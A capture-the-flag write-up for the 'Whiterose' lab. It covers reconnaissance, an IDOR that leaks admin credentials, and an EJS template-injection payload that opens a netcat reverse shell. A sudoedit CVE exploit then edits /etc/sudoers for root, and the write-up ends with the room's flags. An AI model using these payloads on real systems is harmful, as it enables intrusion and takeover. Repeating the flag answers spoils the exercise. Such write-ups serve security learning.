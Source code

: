# Whiterose
(flags are at the end of the writeup)

### Welcome!
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Fri Nov  1 04:34:41 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sV -sC -oN scan 10.10.141.246
    Nmap scan report for cyprusbank.thm (10.10.141.246)
    Host is up (0.046s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
    |   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
    |_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 80 gets redirected to `cyprusbank.thm`, so add `10.10.141.246 cyprusbank.thm` to the /etc/hosts file. After some enumeration I found a virtual host. The command I used is `gobuster vhost -u "http://10.10.141.246" --domain cyprusbank.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320`:<br />
![image](https://github.com/user-attachments/assets/43250f92-25dd-49c8-9e8f-f80388da560f)<br />
So add this new host to the `/etc/hosts` file. <br />
![image](https://github.com/user-attachments/assets/ab79b293-a7da-4ecf-a0e7-498194be2e05)<br />
Using the credentials provided in the task, `Olivia Cortez:olivi8`, we can log in. The page seems to show information about some rich people. I need to answer the first question which is `What's Tyrell Wellick's phone number?`. If I search for "Tyrell Wellick", I can't see it's phone number, just like everybody else. And also I'm not able to access the `Settings` page.<br />
![image](https://github.com/user-attachments/assets/f96ba4ff-33ff-4284-9a64-44e176518f36)<br />
Enumerating the website, I realized that it's because I am not an admin. In the "Messages" panel there's a chat going on between some admins:<br />
![image](https://github.com/user-attachments/assets/28a38dd4-9c02-4a14-9a12-2c0e82efe21c)<br />
and this is the URL of the chat: `http://admin.cyprusbank.thm/messages/?c=5`, by submitting `c=3`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/0595a1d7-82ba-4396-a24d-95a08d3870d6)<br />
So the `c` parameters stands for the number of chat messages that I can view. And here's what I found: <br />
![image](https://github.com/user-attachments/assets/5310d82f-f08e-4a39-9c9c-ae2787f1d859)<br />
`Gayle Bev:p~]P@5!6;rs558:q`. So now I can log with his account, and can view people's phone numbers! (Tyrell Wellick's phone number is at the end of the write up).<br />
Now I can access the settings panel, which seems that it's used to change user's passwords:<br />
![image](https://github.com/user-attachments/assets/f2a34993-b381-4134-9fe3-92325f196536)<br />
I checked if the passwords really changed, but they don't so I probably need to focus on some SSTI vulnerability? After enumerating the request for about 1 hour, I found out that removing the password parameter results in an error:<br />
![image](https://github.com/user-attachments/assets/5c877073-1ce4-4b83-8ca8-c854e82cd548)<br />
This suggests that the server is running EJS(Embedded JavaScript). So I searched online for some EJS SSTI and found [this one](https://github.com/mde/ejs/issues/720). So the password parameter that worked for me is `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.11.108.100 4444 -e sh');s`, and the final payload request looks like this:<br />
![image](https://github.com/user-attachments/assets/84e647ec-ab70-44aa-a152-fb2b8772a051)<br />
This got me the user flag. <br />
Running `sudo -l` I get this:<br />
![image](https://github.com/user-attachments/assets/422e621a-990b-4748-8e41-d6177d64b9fc)<br />
So I searched online how to exploit sudo on `sudoedit`, and found [this](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc) exploit. <br />
![image](https://github.com/user-attachments/assets/c5aa4abd-800b-4b5a-8ea4-874acfae5ac4)<br />
Let's check if my sudo is vulnerable:<br />
![image](https://github.com/user-attachments/assets/aa2b3866-33bd-457e-9351-9af16cd6ac63)<br />
It is! I slightly modified the script, you can find it inside this folder named `exploit.sh`. After executing the script with `./exploit.sh`, add the following line to the /etc/sudoers file: `web ALL=(ALL:ALL) NOPASSWD: ALL`, and exit from the editor. And you should find yourself with a root shell: <br />
![image](https://github.com/user-attachments/assets/f4137250-e837-4e8f-a419-c8901f02d61a)<br />







- What's Tyrell Wellick's phone number? `842-029-5701`
- What is the user.txt flag? `THM{4lways_upd4te_uR_d3p3nd3nc!3s}`
- What is the root.txt flag? `THM{4nd_uR_p4ck4g3s}`
